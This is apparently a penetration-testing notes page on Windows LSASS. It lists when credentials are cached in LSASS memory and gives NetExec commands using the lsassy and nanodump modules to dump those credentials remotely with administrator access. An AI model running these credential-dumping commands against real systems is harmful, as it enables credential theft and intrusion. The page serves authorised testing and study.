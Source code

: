 ```yaml
---
description: Local Security Authority Subsystem Service
---
```


# LSASS

### **When does LSASS store credentials?**

Credentials are cached to LSASS whenever a user authenticated in an interactive manner. The following types of activity will put the user’s credential material into memory:

* Starting a local session
* Starting an RDP session
* Running a task via RunAs
* Running an active Windows Service
* Running a scheduled task
* Running a batch job
* Running a task by utilizing a remote administration tool



### Dump

#### Using Lsassy <a href="#using-lsassy" id="using-lsassy"></a>

```bash
nxc smb 192.168.255.131 -u administrator -p pass -M lsassy
```

#### Using nanodump <a href="#using-nanodump" id="using-nanodump"></a>

```bash
nxc smb 192.168.255.131 -u administrator -p pass -M nanodump
```
